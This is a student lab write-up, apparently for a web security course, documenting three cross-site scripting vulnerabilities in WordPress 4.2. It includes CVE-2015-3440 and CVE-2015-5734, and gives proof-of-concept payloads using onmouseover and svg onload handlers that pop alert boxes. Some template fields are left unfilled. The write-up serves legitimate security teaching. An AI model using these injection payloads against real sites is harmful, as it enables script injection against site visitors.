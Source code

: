 # Project 7 - WordPress Pentesting

Time spent: **2.5** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) CVE-2015-3440
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: https://github.com/satyamsharma/codepath-web-security-week-7/blob/master/XSS_1.gif
  - [ ] Steps to recreate: Enter the following in the Reply:
  
<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
       
  - [ ] Affected source code:
    - [Link 1](https://www.exploit-db.com/exploits/36844/)
    
    
    
2. (Required) Vulnerability Name or ID
  - [ ] Summary: XSS (Authenticated Cross-Site Scripting)
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.6
  - [ ] GIF Walkthrough: https://github.com/satyamsharma/codepath-web-security-week-7/blob/master/XSS_2.gif
  - [ ] Steps to recreate: Enter the following in the Reply:
  
  http://www.test.com/wp-admin/customize.php?theme=<svg onload=alert(2)>
  
  - [ ] Affected source code:
    - [Link 2](https://github.com/WordPress/WordPress/blob/master/wp-admin/customize.php)
    
    
    
   
3. (Required) Vulnerability Name or ID
  - [ ] Summary: CVE-2015-5734
    - Vulnerability types: XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.4
  - [ ] GIF Walkthrough: https://github.com/satyamsharma/codepath-web-security-week-7/blob/master/XSS_3.gif
  - [ ] Steps to recreate: Enter and submit the following in the Reply:
  
  <a href='/wp-admin/' title="" style="position:absolute;top:0;width:10%;height:100%;display:block;" onmouseover=alert(1)//'>TEST</a>
  
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)


## Assets

List any additional assets, such as scripts or files
https://github.com/satyamsharma/codepath-web-security-week-7/blob/master/XSS_1.gif
https://github.com/satyamsharma/codepath-web-security-week-7/blob/master/XSS_2.gif
https://github.com/satyamsharma/codepath-web-security-week-7/blob/master/XSS_3.gif

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
